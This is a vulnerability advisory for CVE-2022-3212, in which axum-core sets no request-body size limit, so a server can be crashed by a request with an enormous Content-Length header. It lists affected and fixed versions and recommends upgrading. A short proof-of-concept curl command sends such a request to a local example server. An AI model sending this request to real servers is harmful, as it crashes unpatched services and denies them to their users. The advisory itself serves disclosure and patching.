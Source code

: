 ```yaml
---
description: CVE-2022-3212 High severity. Missing limit checks in axum-core leads to denial of service
title: axum-core missing request size limit DoS
date_published: "2022-08-31"
last_updated: "2022-08-31"
xray_id:
vul_id: CVE-2022-3212
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
A missing request size limit for HTTP requests in axum-core can allow network attackers to perform denial of service

## Component

[axum-core](https://crates.io/crates/axum-core)

## Affected versions

axum-core (, 0.2.7], fixed in 0.2.8

axum-core (, 0.3.0-rc.1], fixed in 0.3.0-rc.2



## Description

`<bytes::Bytes as axum_core::extract::FromRequest>::from_request` would not, by default, set a limit for the size of the request body. That meant if a malicious peer would send a request with a very large `Content-Length` header (even if the body itself is not very large), the Rust allocator would panic (due to a failed allocation) and the process would crash.

This also applies to these extractors which used `Bytes::from_request` internally:

- `axum::extract::Form`
- `axum::extract::Json`
- `String`



## PoC

```bash
git clone https://github.com/tokio-rs/axum

cd axum/examples && cargo run -p example-readme

curl -v -X POST "http://127.0.0.1:3000/users" -H "Content-Type: application/json" \
--data `python3 -c "import sys; sys.stdout.write('a'*10000)"` -H "Content-Length: 11111111111111111111"
```



## Vulnerability Mitigations

No mitigations are provided for this vulnerability.

In order to fully fix this vulnerability, we recommend upgrading axum-core to version 0.2.8

The fixed [axum](https://github.com/tokio-rs/axum) version is 0.5.16



## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-3212)